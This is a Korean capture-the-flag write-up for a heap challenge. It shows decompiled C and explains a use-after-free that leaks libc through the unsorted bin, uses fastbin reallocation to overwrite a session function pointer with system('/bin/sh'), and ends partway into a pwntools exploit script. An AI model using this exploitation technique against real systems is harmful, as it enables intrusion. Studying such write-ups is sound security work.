 ##### show

```c
((void (__fastcall *)(_QWORD))(&qword_5040)[v5][6])((&qword_5040)[v5][3]);
```

`(&qword_5040)[v5][6]`은 print_message함수가 적혀있는 부분이므로 `(&qword_5040)[v5][3]`에 있는 내용을 출력해주는 역할을 한다.

##### start_routine

```c
void __fastcall __noreturn start_routine(void *a1)
{
  int i; // [rsp+14h] [rbp-9Ch]
  char s[136]; // [rsp+20h] [rbp-90h] BYREF
  unsigned __int64 v3; // [rsp+A8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  while ( 1 )
  {
    pthread_mutex_lock(&mutex);
    for ( i = 0; i <= 9; ++i )
    {
      if ( (&qword_5040)[i] && (&qword_5040)[i][5] && time(0LL) - (&qword_5040)[i][4] > 4 )
      {
        (&qword_5040)[i][5] = 0LL;
        free((void *)(&qword_5040)[i][3]);
        free((&qword_5040)[i]);
        snprintf(s, 0x80uLL, "Session %d expired. Initiating cleanup.", (unsigned int)i);
        sub_1417(s);
      }
    }
    pthread_mutex_unlock(&mutex);
  }
}
```

세션이 만들어진 시간이 4초가 넘어가면 세션과 그 세션의 내용이 적힌 부분을 free한다.

### 해결

세션이 쓰레드에 의해서 free된 이후에도 show를 통해 인덱스에 접근할 수 있다.

따라서 처음에 큰 length를 주어 세션의 내용이 담긴 청크가 unsorted_bin에 들어가면 libc의 주소를 알 수 있게된다.

어떤 세션이 free된 후에 그 세션의 정보가 담긴 청크만큼 0x38의 길이로 세션의 내용이 담기는 청크를 재할당 받으면 그 index의 세션의 정보를 고칠 수 있다.

show에서 

`((void (__fastcall *)(_QWORD))(&qword_5040)[v5][6])((&qword_5040)[v5][3]);`을 하고 있으므로 각각 system("/bin/sh")의 주소, bin/sh의 주소를 주면 쉘을 딸 수 있다.

이때, 스레드에서 free하고 잇으므로 tcache는 사용불가이므로 fastbin에 들어가도록 tcache를 모두 채울 필요가 있다.

##### exploit.py

```python
from pwn import *

host = ["localhost", "prob.cykor.kr"]
port = [1337, 1003]

p = remote(host[1], port[1])
e = ELF("./deploy/chall")
libc = e.libc


p.sendlineafter(">", "create 0 1400")
p.sendlineafter(">", "create 1 56")
```